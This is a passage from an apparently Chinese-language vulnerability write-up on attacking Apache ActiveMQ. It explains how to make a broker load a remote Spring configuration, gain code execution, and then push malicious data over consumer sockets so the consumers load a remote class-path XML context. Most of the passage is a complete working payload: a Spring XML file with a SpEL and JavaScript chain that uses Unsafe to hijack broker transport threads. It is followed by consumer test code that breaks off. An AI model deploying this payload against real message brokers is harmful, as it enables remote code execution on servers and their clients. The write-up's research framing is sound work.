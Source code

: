 获取到Socket后，直接开推恶意数据。这里通过先让Broker加载远程配置文件在Broker上实现SPEL代码执行后，通过代码执行获取消费者socket推送恶意数据，加载远程配置文件。上面也说到了消费者默认开启了tightEncodingEnabled，所以需要使用tightEncodingEnabled的Exp。经过测试，漏洞利用后不会将消费打挂。

```plain
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.0.xsd
            http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context-4.0.xsd">

    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean class="java.lang.String">
        <property name="String" value="#{T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(&quot;function getunsafe() {var unsafe = java.lang.Class.forName('sun.misc.Unsafe').getDeclaredField('theUnsafe');unsafe.setAccessible(true);return unsafe.get(null);} var unsafe = getunsafe(); brokerRegistry = org.apache.activemq.broker.BrokerRegistry.getInstance();brokers = brokerRegistry.getBrokers();for(key in brokers){   brokerService = brokers.get(key);  try{ f = brokerService.getClass().getDeclaredField('shutdownHook'); }catch(e){f = brokerService.getClass().getSuperclass().getDeclaredField('shutdownHook');}   f.setAccessible(true);   shutdownHook = f.get(brokerService);   threadGroup = shutdownHook.getThreadGroup();   f = threadGroup.getClass().getDeclaredField('threads'); threads = unsafe.getObject(threadGroup, unsafe.objectFieldOffset(f)); for(key in threads){       thread = threads[key];       if(thread == null){           continue;       }       threadName = thread.getName();       if(threadName.startsWith('ActiveMQ Transport: ')){           f = thread.getClass().getDeclaredField('target');                      tcpTransport = unsafe.getObject(thread, unsafe.objectFieldOffset(f));           f = tcpTransport.getClass().getDeclaredField('socket');           f.setAccessible(true);           socket = f.get(tcpTransport);           bos = new java.io.ByteArrayOutputStream();           dataOutput = new java.io.DataOutputStream(bos);           dataOutput.writeInt(1);           dataOutput.writeByte(31);    bs = new org.apache.activemq.openwire.BooleanStream();    bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(false);   bs.writeBoolean(true); bs.writeBoolean(false);  bs.marshal(dataOutput); dataOutput.writeUTF('bb');  dataOutput.writeUTF('aa');  dataOutput.writeUTF('org.springframework.context.support.ClassPathXmlApplicationContext');  dataOutput.writeUTF('http://localhost:8000/dddd');  dataOutput.writeShort(0);  socketOutputStream = socket.getOutputStream();           socketOutputStream.write(bos.toByteArray());         }   }   }&quot;)}"/>
    </bean>
</beans>
```

**点对点消费测试**  

```plain
ConnectionFactory connectionFactory = new ActiveMQConnectionFactory(ActiveMQConnection.DEFAULT_USER,
        ActiveMQConnection.DEFAULT_PASSWORD, "tcp://localhost:61616");

Connection connection = connectionFactory.createConnection();
connection.start();
Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
Destination destination = session.createQueue("tempQueue");
MessageConsumer consumer = session.createConsumer(destination);
consumer.setMessageListener(new MessageListener() {
    @Override
    public void onMessage(Message message) {

        try {
            message.acknowledge();
            TextMessage om = (TextMessage) message;
            String data = om.getText();
            System.out.println(data);
        } catch (JMSException e) {
            e.printStackTrace();
```